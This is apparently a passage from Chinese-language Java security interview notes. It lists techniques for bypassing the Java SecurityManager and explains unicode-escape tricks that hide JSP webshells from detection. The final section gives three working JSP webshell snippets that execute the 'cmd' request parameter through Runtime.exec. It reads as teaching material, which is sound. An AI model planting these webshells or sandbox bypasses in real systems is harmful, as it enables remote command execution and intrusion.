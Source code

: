 例如来自用户的输入上传和反序列化指定的`bytecode`或者使用`URLClassLoader`在网络中远程加载等

这些情况下，需要防止不可信来源的恶意代码对系统造成破坏。其实这就是沙箱的应用场景



### 谈一谈SecurityManager的绕过姿势（★★★★）

（1）单等号`+home`目录可写导致`Java Security Manager`绕过

例如这样指定`policy`文件：`-Djava.security.policy=java.policy`

（2）通过`setSecurityManager`绕过`Java Security Manager`

恶意代码可以在运行时调用`setSecurityManager`方法将`SecurityManager`置为`null`以绕过

（3）通过反射绕过`Java Security Manager`

反射调用`getProtectionDomain0`方法将所有`hasAllPerm`属性设置为`true`

（4）自定义类加载器绕过

（5）通过`JNI`调用`native`方法绕过



### 是否了解利用unicode特性的JSP Webshell绕过（★★★）[+]

编译`JSP`时其中的`unicode`会进行解码，其中`\u000a`变成换行，导致后面的`exec`可以执行

```java
<%
  Runtime.getRuntime().
  //\u000aexec
  (request.getParameter("cmd"));
%>
```

加入转义符将会变成简单的注释，这将变成普通的`webshell`

```java
<%
  Runtime.getRuntime().
  //\\u000axxxxxx
  exec(request.getParameter("cmd"));
%>
```

一种特殊的方式（原理较复杂暂不分析）

```java
<%
  Runtime.getRuntime().
  //\u000d\uabcdexec(request.getParameter("cmd"));
%>
```